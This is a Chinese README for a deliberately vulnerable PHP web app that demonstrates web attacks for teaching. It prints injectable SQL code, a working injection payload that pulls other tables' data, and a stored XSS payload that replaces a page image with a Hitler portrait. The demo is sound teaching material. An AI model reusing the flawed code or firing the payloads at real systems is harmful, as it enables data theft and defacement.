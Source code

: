 # README

这是一个为了演示各个类型的 WEB 攻击的一个程序。

它通过 PHP 做后端，`boostrap` 做前端框架，原本是用来提交 shesl 的数据库系统的大作业。

## 漏洞简述

### SQL 注入

这是最常见，也是最具危害性的 WEB 漏洞。

在该项目中 `signup.php` 这个文件中，使用以下代码进行插入数据库操作，可以造成 `sql` 注入：

```php
$sql = "INSERT INTO users(Alias, email, password) VALUES (".
    $_POST["signup-username"].", ".$_POST["signup-email"].", ".md5($_POST["signup-password"]).");";

if( $conn->query($sql) == TRUE ) $info = "sign up successfully";
else $info = $conn->error;
```

这里可以通过联合查询并配合 `concat` 函数，脱出数据库中非 `users` 表单所有信息（因为 `insert into` 语句在 mysql 中无法联合查询本表）。一个可能的 `payload` 如下：

```mysql
# $_POST["signup-username"]=
htxmb', (select concat(coalesce(PName,'NULL'), ',', coalesce(HumanID,'NULL'), ',', coalesce(GName,'NULL')) from games where GameID=1), '68e109f0f40ca72a15e05cc22786f8e6'); #

# $_POST["signup-email"]=
shesl-meow@qq.com

# $_POST["password"]=
68e109f0f40ca72a15e05cc22786f8e6
```

实际执行的 `mysql` 语句如下：

```mysql
INSERT INTO users(Alias, email, password) VALUES('htxmb', (select concat(coalesce(PName,'NULL'), ',', coalesce(HumanID,'NULL'), ',', coalesce(GName,'NULL')) from games where GameID=1), '68e109f0f40ca72a15e05cc22786f8e6'); #', 'shesl-meow@qq.com', '22744961b84dc9c20cdd1c0e0f5e1a82');
```

其中：

- 利用了联合查询语句，可以将**任意查询的结果**赋值给用户的 `email` 信息。

- 此处使用的查询语句是 `games` 这个表格的 `PName`，`GName`，`HumanID` 的字符串拼接。使用 `coalesce` 函数的原因是：当被拼接字符串的一项为 `NULL` 时，结果会退化为 `NULL`。

- 注意该数据库是以 `md5` 存储密码，因此在填入密码时，需要填入密码的 `md5` 值：

  ```bash
  $ echo -n "HelloWorld" | md5sum
  68e109f0f40ca72a15e05cc22786f8e6 *-
  ```



再次登录后查看本账户的邮箱信息，可以查询到脱库的结果：

![1542638111499](./sql-injection-1.png)

### XSS 漏洞

在登录之后会显示一个查询页面，将查询的信息显示在底下的 Query Result 搜索栏中：

- 实现这一过程的 `php` 代码大致如下（文件 `index.php`）：

  ```php+HTML
  <p id='query-result'>
  	<?= $_COOKIE["queryResult"] ?>
  </p>
  ```

- 提交 `form` 表单时指向的文件是 `queryblock.js`：

  ```javascript
  Qu[2].addEventListener('click',function(event){
      event.preventDefault();
      Qg[1].value = "";
      setCookie("queryResult", QueryUser( Qu[1].value ), 1);
      window.location.replace("../index.php");
  });
  ```

  它监听点击事件，并且将查询的结果直接设置到 `cookie` 变量中，并且重新加载 `index.php` 文件（这一点保证了数据库中的如果出现 `javascript` 代码，可以动态显示在网页上）

  他通过以下的 `ajax` 代码与 `php` 进行通信：

  ```javascript
  function QueryUser(inputname) {
      var result = "Your Query result will be print here.";
      $.ajax({
          type: "POST",
          url: '../php/queryUser.php',
          dataType: 'text',
          async: false,
          data:{"query-user": inputname},
  
          success: function(data){
              if(data != "") result = data;
          }
      });
      return result;
  }
  ```

- 进行数据库查询的 `php` 代码大致如下（文件 `queryUser.php`）：

  ```php
  if( $res1 = $conn->query("SELECT HumanID,email,Alias,GameID,gender FROM users WHERE Alias='".$inputkey."';") ){
      while( $row = $res1->fetch_assoc() ){
          foreach ($row as $key => $value) {
              if( !isset($value) ) $value = "null";
              if( $key == "GameID" ) $key = "Favorate Game";
              $Info = $Info.$key.": ".$value.";<br>";
          }
          $Info = $Info . "<br>";
      }
      $queryResult = $Info;
  }
  ```



因为该操作直接将数据库中的信息给显示到了屏幕上，所以如果我们的邮箱信息是 `javascript` 代码，那么其他用户在查询我们的账号时，便会执行我们的 `javascript` 代码。我们尝试以下的 `javascript` 代码，他可以更改图片的信息：

```javascript
ele = document.getElementsByName("query-image");
ele[0].childNodes[1].src = "https://upload.wikimedia.org/wikipedia/commons/e/e1/Hitler_portrait_crop.jpg";
```

 这是一个指向维基百科希特勒的图片，我们可以使用上面 `sql` 注入的方法，注册一个 email 为 `javascript` 代码的用户：

```mysql
# _POST["signup-username"]=
hacker', '<script>ele = document.getElementsByName("query-image");
ele[0].childNodes[1].src = "https://upload.wikimedia.org/wikipedia/commons/e/e1/Hitler_portrait_crop.jpg";</script>', '68e109f0f40ca72a15e05cc22786f8e6'); #
```

再次登录发现左侧页面 `img` 被篡改为希特勒的照片：

![1542652627367](./xss-1.png)

